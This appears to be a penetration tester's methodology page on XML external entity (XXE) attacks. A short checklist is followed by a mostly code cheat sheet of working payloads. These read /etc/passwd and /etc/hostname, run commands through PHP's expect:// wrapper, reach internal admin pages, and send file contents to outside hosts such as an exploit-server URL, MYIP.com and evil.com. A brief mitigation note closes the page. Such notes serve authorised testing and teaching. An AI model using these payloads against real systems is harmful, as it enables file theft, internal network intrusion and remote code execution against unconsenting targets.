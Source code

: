 ```yaml
---
title: "XXE"
layout: notes
tags:
  - webapp
  - methodology
  - xxe
  - FI_file-upload
  - FI_image-upload
  - FI_parameters
  - Co_reading-files
  - Co_ssrf
  - Co_dos
  - Co_rce
---
```

## Summary

Extensible markup language (XML) is a language designed for storing and transporting data. It uses a tree-like structure of tags and data. Tags are not rigidly defined and can be treated closer to variables to describe the corresponding data. Within this document type exists ways to import internal and external definitions to help structure data and are declared with `DOCTYPE`. External entities can be added through DTDs or defined within XML to real local files and exfiltrate data. Crossover episode for SSRF - Server Side Request Forgery and could be accentuated with File Upload. 

## Methodology

When looking for XXE vulnerabilities ask/try the following:
- [ ] **Do I control any XML or HTML to the application?**
- [ ] **Can I Upload DOCX SVG XML or PDF files?**
	- [ ] try SVG in image upload locations
- [ ] add `&notdefined;` to test if XML is being parsed
- [ ] try defining an XXE to read a common file `/etc/hostname`
- [ ] try placing the entity in each node and tag
- [ ] try an XInclude payload
- [ ] try replacing JSON with XML
- [ ] try changing the `Content-Type` to `application/xml` then convert data
	- [ ] `foo=bar --> <?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>`
- [ ] try encoding certain characters
- [ ] try an out-of-band file grab
	- [ ] if you have out-of-band try defining a DTD
- [ ] try a parsing error-based file retrieval
- [ ] try finding a local DTD and redefining an entity
	- [ ] scan for local DTDs by defining one to load and no error means success
	- [ ] only works in a hybrid environment of external and internal DTDs

<br>
IF XXE HAS BEEN FOUND
- [ ] try to perform SSRF on local IPs or intranets
- [ ] try to get command execution

## Capabilities

Reading files  
SSRF  
DoS  
Remote Code execution  

## Found In

Image Uploads  
File Uploads  
Parameters  

## Tools/Examples

[https://github.com/EdOverflow/bugbounty-cheatsheet/blob/master/cheatsheets/xxe.md](https://github.com/EdOverflow/bugbounty-cheatsheet/blob/master/cheatsheets/xxe.md)

basic test
```
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY xxe "test"> ]>
<foo>
  <bar>&xxe;</bar>
</foo>
```

basic file read & oob test
```
<!DOCTYPE foo [<!ENTITY xxe SYSTEM  "http://evil.com" >]>
<foo>&xxe;</foo>

<!DOCTYPE foo [<!ENTITY xxe SYSTEM  "file:///etc/passwd" >]>
<foo>&xxe;</foo>
```

parameter entity
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM  "file:///etc/passwd"> %xxe; ]>
```

list file (JAVA only)
```
<!--?xml version="1.0" ?-->
<!DOCTYPE aa[<!ELEMENT bb ANY>
<!ENTITY xxe SYSTEM "file:///">]>
<foo>
  <bar>&xxe;</bar>
</foo>
```

run code (PHP only)
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<foo>
    <bar>&xxe;</bar>
</foo>
```

basic file read + version
```
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [   
<!ELEMENT foo ANY >   
<!ENTITY xxe SYSTEM  "file:///etc/passwd" >]>
<foo>&xxe;</foo>
```

xinclude
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude"> <xi:include parse="text" href="file:///etc/passwd"/></foo>
```

ssrf or redirect
```
<?xml  version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [   
<!ELEMENT foo ANY >   
<!ENTITY ext SYSTEM  "http://192.168.1.1/admin" >]>
<foo>&ext;</foo>
```

svg xxe
```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

dtd file exfiltration
```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval  "<!ENTITY &#x25; exfil SYSTEM 'https://exploit-0ac600c7044b74d482e30635019d001f.exploit-server.net/?hostname=%file;'>"> 
%eval; 
%exfil;
```

dtd error exfiltration
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>"> 
%eval; 
%error;
```

blind out-of-band xxe
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://myip"> ]>
<foo>&xxe;</foo>
```

blind out-of-band error exfiltration
```
exploit.dtd
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd"> 
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://MYIP.com/?x=%file;'>"> 
%eval; 
%exfiltrate;
```
add in xml
```
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://myip/exploit.dtd"> %xxe; ]>
```

repurposing local DTDs
gnome desktop: `/usr/share/yelp/dtd/docbookx.dtd`
```
<!DOCTYPE foo [ 
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd"> 
<!ENTITY % entiry_overwrite_name ' 
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd"> 
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>"> 
&#x25;eval; 
&#x25;error; 
'> 
%local_dtd; 
]>
```

#### Mitigation

Disable resolution of external entities  
Disable support for XInclude  




